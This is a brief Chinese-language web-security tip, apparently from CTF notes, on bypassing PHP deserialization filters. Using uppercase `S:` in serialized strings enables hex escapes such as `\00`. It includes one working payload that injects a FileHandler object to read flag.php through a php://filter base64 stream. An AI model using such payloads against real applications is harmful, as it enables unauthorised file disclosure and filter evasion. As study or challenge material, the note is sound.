 通过将序列化文本中的`s:<length>`改为`S:<length>`来启用16进制转义

例如
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
中`\00`就被转义成了`NUL`这个字符

#Web #PHP #ASCII #反序列化 #bypass 